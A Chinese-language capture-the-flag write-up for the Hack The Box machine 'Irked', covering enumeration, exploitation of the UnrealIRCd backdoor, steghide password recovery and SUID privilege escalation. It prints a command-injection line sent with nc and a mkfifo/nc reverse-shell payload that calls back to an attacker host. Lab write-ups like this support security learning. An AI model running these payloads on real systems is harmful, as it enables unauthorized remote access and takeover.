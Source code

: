 ```yaml
---
title: Irked Writeup
date: 2020-11-30 22:23:47
category: Hack The Box
---
```


# Irked Writeup

![](./0.png)

## 0x01 信息收集

![](./1.png)


## 0x02 枚举
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse 10.10.10.117
```
扫到 unrealircd 后门。
![](./5.png)
> 实际上这里要开启后门只要 nc 命令过去就可以了。**需要登陆吗，待确认**
> ``` bash
> echo "AB; ping -c 4 10.10.14.21;"|nc 10.10.10.117 6697
> ```

## 0x03 立足点
unrealircd 后门利用，执行反弹 shell 命令拿到普通用户 `ircd`权限。
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4444 >/tmp/f &' 10.10.10.117
```
![](./6.png)
`ircd` 并没有 user flag，找到 `djmardov` 用户 `./documents`，无权限打开 `user.txt`，看了 `sudo -l` 没有可以切换的姿势，在 documents 下 `ls -la` 发现隐藏文件 `.backup，cat` 一下是一个 `xxx step backup pw`，像是某个密码，用来 `ssh djmardov@10.10.10.117` 不对，于是 google 一下发现跟 `stephide` 这个工具有关。
`stephide` 是用于将文件隐藏在图片、音频的一种姿势，
``` bash
stephide extract -sf irked.jpg -p password  # 提取文件
steghide embed -ef secret.txt -cf irked.jpg # 隐藏文件
# 会被提示输入口令
Enter passphrase:Re-Enter passphrase:embedding "secret.txt" in "irked.jpg"... done
```
提取出来看到 pass.txt，`ssh djmardov@10.10.10.117` 登录成功，拿到 `user.txt`
> TODO:
> 跑一下 LinEnum.sh 看下能不能跑出这个 .backup 文件。

## 0x04 提权
查看 html 目录是否可写，因为这里 apache 是 root 启动，有 webshell 就有 root，但是 /var/www/html 目录不可写。

exim4 - 4.84-2 看有提权漏洞，实则兔子洞，很坑。
![](./7.png)

另辟蹊径，轻松提权。
![](./10.png)
> 因为这里有提示 `listusers not found`，才会让人注意到这里执行了一个文件 `/tmp/listusers`。
> 假如这个文件存在呢，没有提示，那要怎么知道执行了哪个文件？
> 
> 正确操作应该是把 viewuser 转 b64 提到本地做分析。
> ``` bash
> base64 -w /usr/bin/viewuser > b.64
> base64 -d b.64 > viewuser
> chmod +x viewuser
> strace ./viewuser # 看里面的执行逻辑 - 姿势1 易于阅读
> ltrace ./viewuser # 看里面的执行逻辑 - 姿势2
> ```
> 可以看到执行了具体哪个文件 `system("/tmp/listusers")`，最后做修改替换执行 `/bin/bash`。
> (图)


## 0x05 攻击节点
信息收集 -> nmap 漏洞扫描 -> 6697.unrealircd(ircd) -> viewuser 服务执行文件(root)

## 0x02 学到什么
#### 1、善用 `nmap --script vuln`。
#### 2、警惕兔子洞，走不通要果断放弃，另辟蹊径。